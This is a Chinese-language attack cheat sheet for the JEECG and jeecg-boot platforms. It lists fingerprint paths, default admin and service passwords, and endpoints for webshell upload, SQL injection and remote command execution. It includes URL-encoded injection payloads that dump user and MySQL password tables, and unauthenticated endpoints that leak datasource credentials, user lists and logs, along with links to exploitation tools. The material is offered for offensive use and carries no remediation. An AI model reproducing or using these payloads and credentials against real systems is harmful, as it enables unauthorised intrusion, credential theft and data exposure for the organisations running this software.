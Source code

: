 JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>
开发文档：<https://help.jeecg.com/java/java/qa.html>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456](http://jeecg.com/doc/demo)[](http://jeecg.com/doc/demo)
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/diet/query/TableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。
如：testConnection
<https://mp.weixin.qq.com/s/DW_tUQt9qjNb6woZy42xeA>

^
后台jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>
用工具加上前缀/jeecg-boot/、/jeecgboot/、/xxx-boot/、/api/

^
敏感接口
```
/user/register
注册

数据源：
/monitor/datasource
/isystem/dataSource
/xxx/dataSource
/jeecgboot/sys/dataSource/list

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list


附件数据列表：
/jeecgboot/system/sysFile/list
/api/system/sysFile/list


第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/success

在线用户
/jeecgboot/sys/online/list




##### 版本号：
3.7.0
##### 问题描述：
当主表的数据关联不上子表的任何数据时，查看详情会弹出tips 子表获取数据失败:xxx，直接暴漏了子表的名称
```

^
## **漏洞**
getDictItemsByTable注入分析：<https://xz.aliyun.com/t/13186?time__1311=GqmhkD8iGNDKKYK0%3DeG%3Dt0QqitoQymmD>
```
sql注入账号密码查询。若报错可报项目路径
/sys/ng-alain/getDictItemsByTable/sys_user/username/password
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js

sys_third_app_config
sys_data_source
oss_file
mysql.user
要有查看权限对于语句 select *, ' as "label",x.js as "value" from ' from mysql.user

```
未授权泄露最近的请求路径
```
/sys/user/querySysUser?username=admin 查询某个用手机号
/jeecg-boot/actuator/httptrace/

/sys/getEncryptedString  获取AES加密IV
```

普通账户权限提升：
<https://github.com/jeecgboot/JeecgBoot/issues/5270>